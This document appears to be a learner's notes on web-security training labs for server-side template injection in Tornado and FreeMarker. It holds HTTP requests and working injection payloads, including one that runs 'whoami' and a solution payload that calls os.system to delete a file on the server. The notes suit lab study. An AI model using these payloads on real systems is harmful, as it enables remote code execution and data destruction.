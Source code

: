 ```
POST /my-account/change-blog-post-author-display HTTP/1.1
...
blog-post-author-display=}}&csrf=nHddz37KBT1wKZuCvtMoOuP3ku2frQwT - It gives error:

GET /post?postId=9 HTTP/1.1
In response:
"/usr/lib/python2.7/dist-packages/tornado/template.py"
```

```
POST /my-account/change-blog-post-author-display HTTP/1.1
...
blog-post-author-display={{7*7}}&csrf=nHddz37KBT1wKZuCvtMoOuP3ku2frQwT

GET /post?postId=9 HTTP/1.1
In response:
{{49}} | 13 December 2021
```

[https://opsecx.com/index.php/2016/07/03/server-side-template-injection-in-tornado/](https://opsecx.com/index.php/2016/07/03/server-side-template-injection-in-tornado/)

```
{%import os%}{{os.popen("whoami").read()}}
```

**Solution:**

```
# user.name}}{%25+import+os+%25}{{os.system('rm%20/home/carlos/morale.txt')

POST /my-account/change-blog-post-author-display HTTP/1.1
...
blog-post-author-display=user.name}}{%25+import+os+%25}{{os.system('rm%20/home/carlos/morale.txt')&csrf=nHddz37KBT1wKZuCvtMoOuP3ku2frQwT

GET /post?postId=9 HTTP/1.1
```

### Lab: Server-side template injection using documentation

This lab is vulnerable to server-side template injection. To solve the lab, identify the template engine and use the documentation to work out how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.

```
GET /product?productId=1 HTTP/1.1
Edit Template ->

GET /product/template?productId=1 HTTP/1.1
In response:
<p>Hurry! Only ${product.stock} left of ${product.name} at ${product.price}.</p>
```

```
Add -> ${evil} - It gives error:
Java FreeMarkerTemplateEngine
```
